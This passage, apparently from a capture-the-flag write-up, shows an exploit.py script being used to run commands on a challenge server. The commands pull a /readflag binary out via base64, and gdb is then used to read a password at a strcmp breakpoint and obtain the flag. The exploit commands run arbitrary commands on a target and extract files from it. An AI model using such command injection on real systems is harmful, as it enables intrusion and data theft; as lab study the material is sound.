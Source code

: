 {% highlight bash %}
$ python exploit.py "/readflag P4S5W0RD"
Command Output: 
Wrong Password!
{% endhighlight %}

Oh shoot it's not. Hmm we might need to download this binary and analyse it. To do so, we can use the `base64` command.

{% highlight bash %}
$ python exploit.py "base64 /readflag"
Command Output:
...
(Too long so I left it out)
...
{% endhighlight %}

And on our machine, we can decode it again and save it to a file.

{% highlight bash %}
$ base64 -d strings_output > readflag
{% endhighlight %}

Using `gdb`, we can set a breakpoint before the `strcmp()` call and view the stack to get the password

{% highlight raw %}
$ gdb -q --args ./readflag P4S5W0RD
(gdb) disassemble main
...
   0x000000000000122b <+166>:   callq  0x1070 <strcmp@plt>
...
(gdb) b *(main+166)
Breakpoint 1 at 0x122b
(gdb) r
Starting program: /home/kali/Desktop/readflag PASSWORD

Breakpoint 1, 0x000055555555522b in main ()
(gdb) x/20s $rsp
...
0x7fffffffddf7: "SDP450WR"
{% endhighlight %}

It seems that the correct password is `SDP450WR`! 

{% highlight bash %}
$ python exploit.py "/readflag SDP450WR"
Command Output: 
FLAG{7HI5_I5_4N07h3r_Fl49}
{% endhighlight %}

<hr>

# Sanity
